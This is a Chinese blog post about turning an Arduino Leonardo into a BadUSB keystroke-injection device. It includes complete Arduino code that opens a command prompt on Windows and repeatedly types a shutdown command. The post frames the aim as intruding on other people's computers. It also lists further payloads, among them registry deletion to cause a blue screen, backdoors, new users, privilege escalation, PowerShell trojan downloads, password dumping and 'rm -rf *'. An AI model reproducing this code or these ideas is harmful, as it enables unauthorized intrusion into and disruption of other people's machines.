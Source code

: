 ```yaml
---
title: Arduino Leonardo 打造 Bad USB
date: 2016-11-27 02:48:23
tags: hack 
categories: hack
permalink: badusb
---
```


嘿嘿嘿，又是一篇猥琐小文。

<!--more -->

# 简介

什么是Bad USB？

![](/content/images/badusb/0.jpg)

BadUSB最可怕的一点是恶意代码存在于U盘的固件中，由于PC上的杀毒软件无法访问到U盘存放固件的区域，因此也就意味着杀毒软件和U盘格式化都无法应对BadUSB进行攻击。

简单来说，就是让USB设备伪装成但却充当键盘，被插入的电脑猝不及防会被迅速输入一定的“指令”，这个指令会让该电脑迅速成为肉鸡。

# 目标

打造一个廉价Bad USB，实现对 终端机、别人的电脑快速合法化入侵。

![](/content/images/badusb/1.jpg)

# 效果
![](/content/images/badusb/preview.gif)

# 原料
1. Arduino Leonardo
2. 普通安卓USB线

# 举个🌰

比如我们要实现一个插入优盘就让对方电脑关机的功能：

用Arduino开发者工具，选择

![](/content/images/badusb/2.jpg)

Arduino Leonardo

然后把程序烧录进去

```C
#include <Keyboard.h>

void setup() {//初始化
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
void loop()//循环
{
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
```

已经在多台Windows电脑上试验成功。

# 进阶

当然，你可以实现很多功能

- 删除系统关键注册表使之蓝屏
- 留后门
- 新建用户
- 用户提权
- 调用Powershell下载木马
- 调用Powershell下载木马及从内存中提取出当前用户的Windows密码
- rm -rf *

此外，发现了一个专门收集Badusb的Github用户，非常有学习价值。

https://github.com/Xyntax/BadUSB-code

# 参考
http://www.extremetech.com/extreme/191467-badusb-returns-hackers-publish-code-that-could-infect-millions-of-usb-devices

http://www.freebuf.com/sectool/107242.html

http://www.freebuf.com/articles/terminal/53886.html


